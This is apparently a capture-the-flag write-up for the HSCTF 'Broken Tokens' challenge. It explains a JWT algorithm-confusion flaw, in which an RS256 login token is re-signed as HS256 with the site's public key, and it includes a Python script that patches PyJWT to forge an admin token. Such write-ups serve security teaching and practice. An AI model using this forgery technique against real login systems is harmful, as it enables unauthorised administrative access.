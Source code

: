 # Broken Tokens

## Problem

```
I made a login page, is it really secure?

https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

## Solution
**Note:** *JWT generation script can be found under `script.py` in `scripts/brokentokens` folder.*

Highly similar to TJCTF task [Moar Horse 4](https://ctftime.org/writeup/20786).

Looking at the given `main.py`:
![](images/broken1.png)

The login form stores a JSON web token (JWT) on login. It checks if a specific value in this token, `auth`, equates to `"admin"` when decrypted.
We first login using random credentials. 
![](images/broken2.png)

Decoding the JWT shows that `auth` is set to guest, and the JWT algorithm is RS256. RS256 is an asymmetric encryption algorithm, meaning encryption/decryption uses a pair of private and public keys.
The site however does not check the algorithm used. We can exploit this using HS256, a symmetric encryption algorithm
where encryption/decryption uses the same key, instead. 

Using the publickey.pem provided on the site and the script below:
```
import json
import jwt
jwt.algorithms.HMACAlgorithm.prepare_key = lambda self, key : jwt.utils.force_bytes(key)


with open(r"C:\Users\brand\Desktop\publickey.pem", "rb") as file:
    PUBLIC_KEY = file.read()
print("public key : ")
print(PUBLIC_KEY)

data = {
        "auth": "admin"
    }

token = jwt.encode(data, PUBLIC_KEY, "HS256")
print("token : ")
print(token)
```

We can engineer a new encrypted `auth` value for the JWT token using HS256. Upon login, we update the value of `auth` to
the new value in the POST request and resend it. The site will allow us to log in as admin, showing the flag.

![](images/broken3.png)

![](images/broken4.png)

Flag: `flag{1n53cur3_tok3n5_5474212}`
